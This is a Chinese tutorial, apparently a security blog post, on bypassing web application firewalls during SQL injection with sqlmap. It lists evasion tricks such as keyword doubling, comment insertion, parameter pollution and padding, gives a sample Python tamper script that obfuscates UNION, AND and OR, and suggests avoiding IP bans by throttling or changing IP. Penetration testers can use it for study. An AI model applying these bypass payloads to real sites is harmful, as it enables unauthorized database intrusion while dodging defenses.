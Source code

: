 ```yaml
---

title: SQLmap 绕 WAF脚本编写


---
```


## WAF(web application firewall)：Web应用防火墙

WAF为了防御网站被入侵的常见手段：

检测到入侵者会拦截你当前访问的页面，或者跳转到其他界面，再或者直接ban你的IP。

WAF类型：

硬件WAF：有个设备，在网关的地方放一个设备

软件WAF：软件安装

云WAF：云服务上，应该是硬件或软件形式存在的

<!--more-->

区别不大，都是WAF，只不过是规则不同罢了。

WAF的核心检测机制就是正则表达式，通过开发写在WAF中的正则匹配来拦截。

**绕WAF的一定是本地测试成功再实行利用,假如无法本地测试可以选择低频率或者换IP。**

<u>**常见WAF拦截图**</u>

<u>**可以参考这个  https://mp.weixin.qq.com/s/3uUZKryCufQ_HcuMc8ZgQQ**</u>

**通过对应WAF拿到本地来测试**



## **绕WAF的常见手法：**

**1.用其他函数，写法替代**

2.大小写绕过（老WAF）

3.替换绕过：会把关键词替换为空，可以seselectlect,ununionion等

**4.编码绕过：网站需要自带编解码**

**5.注释绕过：WAF会认为注释的东西就是安全的，**

**hpp:http://xxx.com?id=1/*order by 1&id=1 order by 2 -- qw */   它的id传了两次，变量覆盖把前面的传参给覆盖了。**

6.白名单绕过

**7.垃圾数据填充：post传参数据包没有长度限制，WAF检测需要时间，有时会有长度限制**。



常见替代：

空格替代+或者/**/

函数() 用函数/**/()代替

**更多具体绕waf**

**还可以参考**：https://www.cnblogs.com/sunny11/p/14438269.html



## **脚本编写**

*写脚本的前提是**手动可以绕过**，假如绕不过就不用谈写脚本了。*

**参考文章和介绍如下：**

**[sqlmap,Tamper详解及使用指南](https://www.webshell.cc/7162.html)**

tamper脚本位于`sqlmap-master/tamper/`

--list-tampers 查看sqlmap自带的tamper脚本

sqlmap怎么用

用 **--tamper 脚本名称**  来使用



**怎么写？**

![image-20211201171110760](https://www.langsasec.cn/wp-content/uploads/2021/12/image-20211201171110760.png)

def tamper(payload,**kwargs): 
这个是定义了一个函数tamper,然后有两个形参，payload和kwargs

payload实际上就是指sqlmap原本要执行的代码。
kwargs可以用来设置HEAD头信息（不过SQLmap脚本中用的少）我可以在数据包里面设置为啥要用这种脚本？

***照猫画虎***

**因此我们修改自带脚本就好**

通过观察只需要用替换函数设置payload即可

paylod.replace()

return payload

import re  引入python正则库

```python
**代码示例：**

#!/usr/bin/env python

""" Copyright (c) 2006-2020 sqlmap developers (http://sqlmap.org/) See the file 'LICENSE' for copying permission """

import re # 用于正则匹配

from lib.core.data import kb from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL # 定义优先级，此处是‘一般’

def dependencies(): 
    pass

def tamper(payload, **kwargs): # 定义tamper脚本

#这里写你的过waf代码
#eg:
    payload = payload.replace('UNION', 'uNiOn/*/%0a*a*/')
    payload = payload.replace('DATABASE()', 'dataBase/*!(*/)')
    payload = payload.replace('USER()', 'usEr/*!(*/)')
    payload = payload.replace(' ', '/**/')
    payload = payload.replace('OR', '/*!14400Or*/')
    payload = payload.replace('AND', '/*!14400aNd*/')
#这里写你的过waf代码

	return payload 
```



自带脚本有个base64的脚本也是类似的框架，如果有自己需要的库，自己调用即可，建议学一点python基础

![image-20211201163819648](https://www.langsasec.cn/wp-content/uploads/2021/12/image-20211201163819648.png)

**sqlmap.py  -r 1.txt --tamper 脚本 --flush--session --proxy=http://127.0.0.1:8080**

--flush--session忘记前面数据包的记录

--proxy=http://127.0.0.1:8080 将数据包发到burp的代理上可以看到脚本跑的细节



*封IP怎么办*

1.*访问太快，控制频率：--delay  次数

2.换IP

3.可能有恶意传参被检测，自行检查下

## 永远记住工具不是万能的，脚本不一定就可以跑来数据









